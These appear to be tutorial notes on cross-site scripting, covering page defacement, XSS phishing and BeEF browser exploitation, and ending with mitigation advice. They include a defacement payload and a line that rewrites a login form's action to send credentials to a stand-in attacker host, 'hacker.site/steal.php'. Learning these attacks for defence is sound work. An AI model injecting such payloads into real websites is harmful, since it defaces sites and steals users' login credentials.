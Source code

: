 ```
document.body.innerHTML="<h1>Defaced</h1>";
```

- The DOM object body corresponds to the BODY tag that holds the page content
- By setting its content, we basically replace the current content with our own. In this case is just the word Defaced.


- All of us know phishing by the many spam emails we receive everyday asking For our PayPal login credentials.
- This and many others are the ways a phisher wants us to visit a crafted website convincing us of its authenticity
- These phishing attacks resolve around deceiving the user into thinking that one website, is a different one.
- XSS phishing on the other hand, modifies the actual website in a sneaky way to increase the chances of success.
- If the phisher objective is to steal login credentials and an XSS if found on the login page of a website, the only change to make would be to the login FORM. The attacker would make sure that the username and password would be redirected to a domain belonging to him.

> Note: SSL certs, DNS checks, blacklists, and other phishing defenses fail miserably in handling XSS phishing because the phishing website is the actual website.

### How to
- The simpliest way is to alter the ACTION parameter of the FORM tag:

```
<form name="loginform" method="POST" action="/checklogin.cgi">
```

- By injecting the following JavaScript the page will remain unchanged.

```
document.forms[0].action="https://hacker.site/steal.php";
```

### Attack - BeEF
- Once an XSS vuln is found. BeEF is the fastest way to exploit it and gain control of the remote browser.
- If the browser is unpatched or old, BeEF and Metasploit Browser Autopwn are capable of exploiting it to give you a remote shell on the remote machine.


## Mitigation
- XSS exploits are Data Validation vulnerabilties
- XSS vulns can happen only if untrusted user input is used on the web application output.
- This kind of vulnerability is actually an output encoding vuln: XSS exploitation happens when the attacker manages to inject code on the output

Mitigating a XSS is about implementing two layers:
```
Input Validation to filter the attack vectors as much as possible
Context-Aware output encoding to correctly and safely render users content on the web application pages
```
